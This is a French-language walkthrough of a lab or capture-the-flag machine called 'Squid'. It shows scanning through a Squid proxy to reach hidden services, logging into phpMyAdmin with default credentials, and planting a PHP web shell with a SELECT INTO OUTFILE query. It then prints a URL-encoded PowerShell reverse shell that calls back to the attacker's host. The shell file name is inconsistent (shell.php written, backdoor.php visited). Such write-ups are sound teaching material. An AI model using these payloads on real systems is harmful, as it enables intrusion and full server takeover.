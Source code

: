 # Squid

    sudo nmap -p- -sV -T5 192.168.205.189
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.205.189 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.205.189
Scans classiques.    
 
    3128/tcp open http-proxy Squid http proxy 4.14  
    |_http-title: ERROR: The requested URL could not be retrieved  
    |_http-server-header: squid/4.14

Seul le port 3128 semble ouvert. Le piège est qu'il ne faut pas se casser les dents à énumérer le port 3128 comme une cible, mais l'utiliser comme un proxy vers les autres services de la VM. 

    sudo vim /etc/proxychains4.conf
Ajouter "http 192.168.205.189 3128" et commenter les autres lignes.

    proxychains nmap --top-ports=300 -sV -T5 -sT --max-retries=1 192.168.205.189 -oN  Squid.txt
    nmap -sV --top-ports=300 -Pn -n -T5 -v --max-retries=1 --proxies http://192.168.205.189:3128 192.168.205.189

Voici deux exemples de scans que j'ai testés sans succès, les ports refusent ou ignorent ma connexion à chaque fois. J'ai voulu forcer dans cette voie en n'utilisant que Nmap mais apparemment il faut utiliser un autre outil spécifique capable de scanner à travers un proxy HTTP : https://github.com/aancw/spose

    $ python3  ~/Downloads/spose/spose.py  --proxy http://192.168.205.189:3128 --target 192.168.205.189
    Using proxy address http://192.168.205.189:3128  
    192.168.205.189 3306 seems OPEN  
    192.168.205.189 8080 seems OPEN

Passer par le navigateur avec une extension de gestion des proxies pour continuer sans trop s'embêter. On peut accéder au site sur http://192.168.205.189:8080/ en spécifiant le proxy 192.168.205.189:3128, type HTTP. Ce dernier point est très important, la connexion au site ne fonctionnera pas si on se trompe de protocole et que l'on passe par un SOCKS4 ou un SOCKS5.

En utilisant le mot de passe par défaut de phpMyAdmin ("root" / "") on peut se connecter au dashboard d'administration. On a maintenant un bien plus grand nombre de possibilités. 
<br /> Sur la page http://192.168.205.189:8080/phpmyadmin/sql.php on peut exécuter des requêtes MySQL, ce qui donne la possibilité d'injecter un web-shell :

    SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:/wamp/www/shell.php"

En visitant la page http://192.168.205.189:8080/backdoor.php?cmd=whoami on a bien le résultat de la commande :
> nt authority\system

Visiblement on est déjà au maximum des droits, il suffit donc de transformer ce web-shell en reverse-shell pour terminer la VM. Je vais utiliser l'un des shells du site https://www.revshells.com/ avec encodage : 

    rlwrap nc -nvlp 9001

En ouvrant l'adresse finale j'obtiens bien la connexion au serveur : 
http://192.168.205.189:8080/backdoor.php?cmd=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27192.168.45.184%27%2C9001%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

	PS C:\wamp\www> type C:\local.txt
    PS C:\wamp\www> dir C:\Users\Administrator\Desktop
    PS C:\wamp\www> type C:\Users\Administrator\Desktop\proof.txt

